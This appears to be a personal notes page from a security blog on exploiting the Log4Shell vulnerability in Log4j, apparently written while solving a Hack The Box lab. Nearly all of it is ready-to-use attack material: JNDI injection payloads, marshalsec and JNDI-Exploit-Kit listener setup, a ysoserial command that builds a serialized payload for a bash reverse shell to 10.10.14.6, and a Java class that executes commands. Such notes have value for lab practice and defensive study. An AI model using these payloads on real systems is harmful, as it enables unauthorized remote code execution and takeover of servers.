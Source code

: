 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec

excerpt_separator: <!--more-->
---
```


<p>The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack.</p>


<!--more-->

## Log4shell

### Setting up LDAP server using Marshalsec
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://10.10.10.10:8888/#log4jrce"`

#### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

#### Creating serialized payload using ysoserial
[ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

#### Set up JNDI Listener using JNDI-Exploit-Kit
[JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
- `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
- after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

#### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something. 

#### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

